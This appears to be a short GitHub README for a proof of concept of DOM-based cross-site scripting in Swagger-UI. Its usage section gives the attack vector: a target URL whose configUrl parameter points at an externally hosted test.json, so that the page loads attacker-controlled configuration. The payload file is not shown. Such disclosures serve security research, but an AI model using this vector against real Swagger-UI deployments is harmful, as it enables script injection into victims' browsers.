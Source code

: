 # Swagger-UI DOM Based XSS POC

This repository serves as a Proof of Concept (POC) for demonstrating **DOM-based Cross-Site Scripting (XSS)** vulnerabilities in Swagger-UI

![Screenshot 2024-02-22 214408](https://github.com/Wh02m1/Swagger-UI-XSS/assets/21974999/f29d0448-e7b6-4ee2-a43a-48e4cb4624fc)

# Usage
Add `https://wh02m1.github.io/Swagger-UI-XSS/test.json` to the **configUrl** parameter.
It will be like this `https://domain/endpoint?configUrl=https://jumpy-floor.surge.sh/test.json`

